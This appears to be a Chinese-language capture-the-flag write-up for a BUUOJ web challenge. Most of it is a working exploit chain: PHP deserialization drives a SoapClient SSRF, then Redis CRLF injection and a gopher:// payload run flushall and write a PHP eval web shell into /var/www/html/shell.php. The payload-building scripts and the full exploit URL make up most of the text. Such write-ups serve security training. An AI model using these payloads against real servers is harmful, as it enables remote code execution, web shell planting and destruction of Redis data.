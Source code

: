 根据题目描述的 redis, 猜测是通过 ssrf + redis 来 getshell

`$this->love = new $this->wllm($this->arsenetang,$this->l61q4cheng);` 这句很明显是要通过某个类来执行 ssrf

众所周知 redis 的协议很宽松, 支持用 http 来发包, 而 php 原生的 SoapClient 类可以发送 http

payload 如下

```php
<?php

class swpu{
    public $wllm;
    public $arsenetang;
    public $l61q4cheng;
    public $love;
}

$a = new swpu();
$a->wllm = 'SoapClient';
$a->arsenetang = null;
$target = 'http://127.0.0.1:6379/';
$poc = "flushall\r\nconfig set dir /var/www/html/\r\nconfig set dbfilename shell.php\r\nset xzxzxz '<?=eval(\$_REQUEST[1])?>'\r\nsave";

$a->l61q4cheng = array('location'=>$target, 'uri'=>"hello\r\n".$poc."\r\nhello");
echo urlencode(serialize($a));
```

试的时候一直卡住 (正常现象), 访问 shell.php 也显示 404

于是猜测 redis 可能有认证, 看了下题目有 hint 类, 通过 `file_get_contents()` 来获得 hint.php 的内容

直接反序列化 hint 无回显, 结果想试试 `file_get_contents()` + gopher 的时候阴差阳错地读到了 hint.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231829355.png)

```php
<?php

class hint{
    public $hint;
}
$a = new hint();
$a->hint = 'gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2422%0D%0A%0A%0A%3C%3Fphp%20phpinfo%28%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A';
echo serialize($a);
```

```
http://0021bfdb-5d2b-42ff-9505-49d23c4aa0e2.node4.buuoj.cn:81/?hello=O:4:"hint":1:{s:4:"hint";s:404:"gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2422%0D%0A%0A%0A%3C%3Fphp%20phpinfo%28%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A";}
```
